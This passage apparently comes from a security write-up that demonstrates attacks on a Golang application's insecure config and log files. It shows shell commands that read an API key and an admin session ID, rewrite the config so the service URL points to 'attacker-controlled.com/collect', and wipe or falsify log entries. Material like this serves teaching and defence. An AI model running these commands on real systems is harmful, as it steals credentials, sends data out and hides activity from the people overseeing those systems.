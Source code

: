     attacker_user@server:~$ cat /app/config/settings.json
    {
      "service_url": "https://api.internal.corp/data",
      "api_key": "supersecretkey123",
      "feature_x_enabled": true
    }
    ```
    
    *Outcome*: Attacker obtains the `api_key` and internal `service_url`.
    
- **Modify configuration**: The attacker decides to redirect service calls to their own server or disable a feature.
    
    ```Bash
    
    attacker_user@server:~$ echo '{"service_url": "https://attacker-controlled.com/collect", "api_key": "supersecretkey123", "feature_x_enabled": false}' > /app/config/settings.json
    ```
    
    *Outcome*: The next time the Golang application reads its configuration, it will use the attacker-controlled URL, potentially sending sensitive data to the attacker. `feature_x_enabled` is now false. The application's behavior is altered.
    

**Step 3: Exploiting Log File (Information Disclosure & Tampering)**

- **Read sensitive logs**:
    
    ```Bash
    
    attacker_user@server:~$ cat /app/logs/app.log
    2023-10-26 10:00:00 INFO: Application started.
    2023-10-26 10:00:05 INFO: User 'admin' logged in with session ID 'sess_abc123def456'.
    2023-10-26 10:00:10 ERROR: Failed to process payment for user 'john_doe'.
    ```
    
    *Outcome*: Attacker obtains a valid session ID for the 'admin' user, which could be used for session hijacking if other conditions permit. They also gain insights into application errors and user activity.
    
- **Tamper with logs**: The attacker attempts to hide their presence or mislead administrators.
    
    ```Bash
    
    # Clear the log file
    attacker_user@server:~$ > /app/logs/app.log
    # Or inject misleading entries
    attacker_user@server:~$ echo "2023-10-26 10:05:00 INFO: All systems nominal. No suspicious activity detected by user 'attacker_user'." >> /app/logs/app.log
    ```
    
    *Outcome*: Evidence of attacker activity or legitimate errors might be lost, or false information injected, hindering incident response.
    
